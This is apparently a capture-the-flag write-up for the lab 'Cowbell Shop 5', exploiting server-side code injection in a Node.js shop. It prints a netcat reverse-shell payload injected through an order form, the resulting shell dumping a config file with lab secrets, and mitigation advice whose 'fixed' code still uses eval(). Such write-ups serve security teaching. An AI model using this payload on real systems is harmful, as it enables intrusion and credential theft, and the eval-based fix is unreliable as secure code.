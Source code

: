 # Cowbell Shop 5 - RCE

## Challenge

Remote Code Execution Attack: how clumsy code can lead to disasters

## Answer

### Explain the security problem 

* A remote code execution attack is one of the most dangerous. It can lead to full system access and take over of the system.

### Explain your attack. \(exploit, screenshot, hacking journal\) 

Step 1\) Start Web Shell Docker and listen on Port 1337

![](../../.gitbook/assets/image%20%28362%29.png)

```text
# IP
10.2.0.5

# PORT
1337
```

Step 2 -3 \)  Open the vuln. Cowbell Shop and navigate to Order page. Input in the form

```text
require('child_process').exec('nc 10.2.0.5 1337 -e sh -c "sh -i"')
```

and "Export PDF" \(which is not used in this challenge\)



Step 4\)  Check your netcat server for an incoming connection.

```bash
/app # cd configs
/app/configs # cat index.js
'use strict';

const flag = '3c7790ce-996f-4192-835b-619415f6bf7c';
const authSecret = '6a5d1f68as189c1asd31c98ad74f$ä¨ü123^01230dfasdklöfj asjfklö ä$das-füadfc$äsdä-$ad maklfjolu89ujpoadfädüafcnadszucfbhjk9m vkldf mlökl';
const fs = require('fs');
const sslKey = fs.readFileSync('encryption/key.pem');
const sslCert = fs.readFileSync( 'encryption/cert.pem' );

const config = {
    server: {
        host: '0.0.0.0',
        port: '80',
        sslPort: '443',
        SSRFPort: '8765'
    },
    sslOptions: {
        key: sslKey,
        cert: sslCert
    },
    crypt: {
        hash: 'sha256',
        secret: 'kslafjop2)/)*(ZOJKN*K*JL*IU%*IO%JH'
    },
    mongo: {
        username: 'webshopEditor',
        password: '1234',
        host: 'localhost',
        port: 27017,
        name: 'webshop',
        connectionString() {
            return 'mongodb://' + this.username + ':' + this.password + '@' + this.host + ':' + this.port + '/' + this.name;
        }
    },
    jwt: {
        secret: authSecret,
    },
    auth: {
        signOptions: {
            audience: 'self',
            issuer: 'webshop',
        },
        validateOptions: {
            secret: authSecret,
            audience: 'self',
            issuer: 'webshop'
        }
    },
    postImages: {
        directory: './assets/post-images/',
    },
    accountProfile: {
        directory: './public/app/assets/profiles/',
    }
};

module.exports = config;
/app #
```

Flag  = `3c7790ce-996f-4192-835b-619415f6bf7c`  


## Solution

#### Explain the underlying security problem

* Ability to trigger arbitrary code execution over a network.
* The CowbellShop is vuln. to Remote Code Execution 
* Attacker is able to run code with system level privileges on the CowbellShop server 
  * Access config files \(database, users\)

#### Explain the exploit

* The attackers user input 

  ```text
  require('child_process').exec('nc 10.2.0.5 1337 -e sh -c "sh -i"')
  ```



  is not sanitized and executed \(PDF generation\) on the victims server

* The victims server is not protected enough

#### Explain mitigation

* Secure programming:  User input validation and sanitation
* Patching of the server and used libraries
* Web Application Firewall \(ability to block such request based on patterns\)



## Lösung HL 

```text
eval() is evil

Do not use the eval() function. If you really need it then be sure you escaped and validated the input you enter in this function. Do not run the webserver as root or antoher user with much privileges and use other server hardening tactics. If someone is able to exploit this vulnerability, a non-root user process can not do as much harmful things as the root user.

Fixed Code in Backend Service:

Copied to clipboard
const querystring = require("querystring");
function getFromTo(from, range, callback) {
  let fromResult = querystring.escape(from);
  let toResult = eval(fromResult + " + " + querystring.escape(range));
  let result = { from: fromResult, to: toResult };
  return callback(
    null,
    ResponseUtil.createSuccessResponse(result, "Parameters accepted.")
  );
}
```

